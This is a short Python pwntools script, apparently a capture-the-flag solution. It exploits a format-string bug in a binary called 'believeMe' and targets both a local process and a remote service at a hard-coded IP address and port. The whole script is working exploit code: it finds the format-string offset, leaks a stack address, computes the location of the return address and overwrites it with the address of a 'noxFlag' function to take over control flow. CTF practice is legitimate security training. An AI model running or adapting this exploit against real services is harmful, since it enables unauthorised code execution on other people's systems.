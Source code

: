 ```python
from pwn import *

PROC_NAME = "./believeMe"

def send_payload(payload, proc):
	log.info("payload = {} (len = {})".format(repr(payload), len(payload)))
	proc.sendline(payload)
	ret = proc.recvall()
	log.info("return = {}".format(repr(ret)))
	return ret

def send_payload_local(payload):
	return send_payload(payload, process(PROC_NAME))

def send_payload_remote(payload):
	return send_payload(payload, remote('18.223.228.52', 13337))

f = FmtStr(execute_fmt=send_payload_local)
offset = f.offset
log.info("Found offset = {}".format(offset))

f = FmtStr(execute_fmt=send_payload_remote, offset = offset)
var_3C = f.leak_stack(7)
log.info("Address on stack = {}".format(hex(var_3C)))

ret_addr = var_3C - 0x108
log.info("Return address location = {}".format(hex(ret_addr)))

e = ELF(PROC_NAME)
noxFlag_addr = e.symbols['noxFlag']
log.info("noxFlag address = {}".format(hex(noxFlag_addr)))

f = FmtStr(execute_fmt=send_payload_remote, offset = offset)
f.write(ret_addr, noxFlag_addr)
f.execute_writes()

```